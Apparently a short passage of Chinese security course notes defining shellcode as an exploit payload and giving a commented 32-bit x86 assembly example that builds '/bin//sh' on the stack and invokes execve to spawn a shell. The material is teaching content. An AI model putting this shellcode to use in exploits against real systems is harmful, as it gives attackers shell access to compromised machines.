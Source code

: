13. ![image-20221118204508687](img/image-20221118204508687.png)

## Shellcode

- 一段代码，指用于利用软件漏洞的攻击载荷
- 漏洞程序运行攻击载荷，通常会生成一个供攻击者操作目标系统的 shell
- Shellcode 也可以是其它功能代码，比如删除文件
- Shellcode 是机器码，与 OS 和 CPU 紧密相关，采用汇编语言编写

### 代码示例

```asm
; Store the command on stack
xor eax, eax 		; clearing eax register
push eax			; Pushing NULL byte
push "//sh"			; Pushing //sh
push "/bin"			; Pushing /bin
mov ebx, esp		; ebx --> "/bin//sh"； execve()'s 1st argument

; construct the argument array argv[]
push eax			; argv[1] = 0
push ebx			; argv[0] --> "/bin//sh"
mov ecx, esp		; ecx --> argv[]: execve()'s 2nd argument

; For environment variable
xor edx, edx		; edx = 0: execve()'s 3rd argument

; Invoke execve()
xor eax，eax			;
mov al, 0x0b		; execve()'s system call number
int 0x80
```
